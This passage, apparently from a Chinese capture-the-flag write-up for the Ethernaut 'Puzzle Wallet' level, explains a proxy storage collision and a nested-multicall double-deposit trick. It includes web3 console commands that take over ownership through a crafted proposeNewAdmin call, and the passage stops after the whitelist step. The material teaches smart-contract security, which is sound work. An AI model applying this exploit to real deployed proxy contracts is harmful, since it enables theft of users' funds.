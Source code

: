         function multicall(bytes[] calldata data) external payable onlyWhitelisted {
            bool depositCalled = false;
            for (uint256 i = 0; i < data.length; i++) {
                bytes memory _data = data[i];
                bytes4 selector;
                assembly {
                    selector := mload(add(_data, 32))
                }
                if (selector == this.deposit.selector) {
                    require(!depositCalled, "Deposit can only be called once");
                    // Protect against reusing msg.value
                    depositCalled = true;
                }
                (bool success, ) = address(this).delegatecall(data[i]);
                require(success, "Error while delegating call");
            }
        }
    }
    ```

题目比较复杂，最终目的是使 PuzzleProxy 的 admin 为 player

因为 PuzzleProxy 和 PuzzleWallet 部署在同一个地址上，它们的 storage 会共用，所以就导致了 PuzzleProxy 的 pendingAdmin 对应了 PuzzleWallet 的 owner，PuzzleWallet 的 maxBalance 对应了 PuzzleProxy 的 admin

从后往前推：

- 要使 admin 变为 player，则可以设置 maxBalance 为 player
- 而 setMaxBalance 函数需要先使当前合约账户的余额变为 0
- 合约账户余额减少的方式在 execute 中的 call，使余额减少 value
- 但这样要使 balances[player] >= value
- 而通过 deposit 增加 balances[player] 的话，合约账户余额也会同步增加
- 所以要使用 multicall 函数来使 balances[player] 增加量为合约账户余额增加量的二倍
- 但是 multicall 中检测了 selector 使 deposit 只能调用一次
- 这可以通过 multicall 中执行两个 multicall，每个 multicall 调用一次 deposit

这样分析之后问题就解决了，首先调用 proposeNewAdmin 来使 pendingAdmin（owner）变为 player，这个函数不能直接调用，但是可以通过发送合约的方式调用
```js
> await web3.eth.getStorageAt(instance, 0)  // owner
'0x000000000000000000000000<level address>'
> web3.utils.sha3("proposeNewAdmin(address)").slice(0, 10)  // selector
'0xa6376746'
> data = web3.utils.sha3("proposeNewAdmin(address)").slice(0, 10) + player.slice(2).padStart(64, "0")
'0xa6376746000000000000000000000000<player address>'
> web3.eth.sendTransaction({from: player, to: instance, data: data})
> await web3.eth.getStorageAt(instance, 0)
'0x000000000000000000000000<player address>'
```

然后拿到 owner 后需要将自己加入白名单，并且先查询一下合约账户余额
```js
> await contract.addToWhitelist(player)
> await getBalance(instance)
'0.001'
```
